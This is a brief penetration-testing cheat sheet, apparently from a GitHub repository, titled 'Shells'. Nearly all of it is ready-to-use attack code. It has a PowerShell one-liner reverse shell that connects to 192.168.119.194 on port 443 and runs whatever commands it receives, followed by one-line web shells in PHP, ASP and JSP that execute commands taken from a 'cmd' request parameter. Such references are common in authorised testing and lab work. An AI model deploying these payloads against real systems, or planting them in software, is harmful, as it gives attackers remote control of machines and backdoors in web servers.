 # Shells

## Reverse shells

#### Powershell
```
powershell -nop -exec bypass -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.194',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

## Single line Webshell

#### PHP
```
<?php echo passthru($_GET['cmd']); ?>
<?php echo shell_exec($_GET['cmd']); ?>
```
#### ASP
```
<% eval request("cmd") %>
```
#### JSP
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
